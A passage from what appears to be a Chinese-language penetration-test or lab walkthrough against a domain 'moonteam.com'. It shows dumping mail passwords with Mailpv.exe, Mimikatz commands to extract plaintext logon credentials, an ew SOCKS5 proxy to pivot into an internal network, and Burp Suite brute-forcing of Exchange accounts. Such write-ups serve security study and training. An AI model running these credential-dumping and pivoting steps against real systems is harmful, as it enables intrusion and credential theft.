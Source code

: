 分别是

blue.com

moonteam.com

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOyziaRfALnQa9weoD24ePYIhcIJFrLFa3xqm7f3x3vWeODhsjiaGCg2hA/640?wx_fmt=png)

**5.9.2  POP3 服务开启**

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOMJ7Nibatb6PKwOibsn5IylYGAD4UHgZg0Z4Qq3QezaEUW39QlT1STibKg/640?wx_fmt=png)

**5.9.3 邮箱密码获取**

Mailpv.exe

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOprmctqFz5oGeibtoiaEfDRIe7ib5dD22wXZFZ5onCggRsEkmPKHlmlcOw/640?wx_fmt=png)

**5.9.4 Mimikatz 系统密码哈希**

上传 x86mimikatz 获取明文

```
privilege::debug
sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOg6yno0ibImso30vVKNFURibCDyccUibsxJOWzMPqsOUenpHVz0pJy8xCA/640?wx_fmt=png)

**5.10 查看邮件服务**

查询邮箱记录

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPORstW9QKfFibfBAtAiaAIOa245hjDvcAvJ2eHOibWG2xL1tW9TetXsR6QQ/640?wx_fmt=png)

https://mail.moonteam.com/owa/auth/logon.aspx?url=https%3a%2f%2fmail.moonteam.com%2fowa%2f&reason=0

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOq2vunSesUibbJU270gHOJftBW2acW8WPP0zGJJt11KQsLIJXW2Tq4ow/640?wx_fmt=png)

**5.11 Ew 与 SocksCap64 设置 socks5 代理访问内网**

因为 2003 很多工具都不支持使用特别是 powershell 和 net4.0 都不能安装所以设置代理在 12server4 测试安全。

```
ew_for_Win -s ssocksd -l 7788
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOorgcVnkqtjoFffDBjN3X83dQSgEu9ynNb5qpTYDtHpfZPlkaPBUu7A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOKJX8UXeHX71pN2A4gIpKcQGXmwxia0O3v7V1SXtCwLx8R93VqAIWr0A/640?wx_fmt=png)

**5.12 Burpsuite 设置上游代理穷举 exchange2013 账号和密码**

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOvGx8smuB3c1iaPgDXGfbQwG7PMx86NB1l8XUWxkbz4goRX0he4ibuMEg/640?wx_fmt=png)

SocksCap64 开启系统代理

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOzBQ9oNLPticuKfy2WsbeibEjVhxiadDLVgzGZGdOrTYFrK3HnsRYPIovA/640?wx_fmt=png)
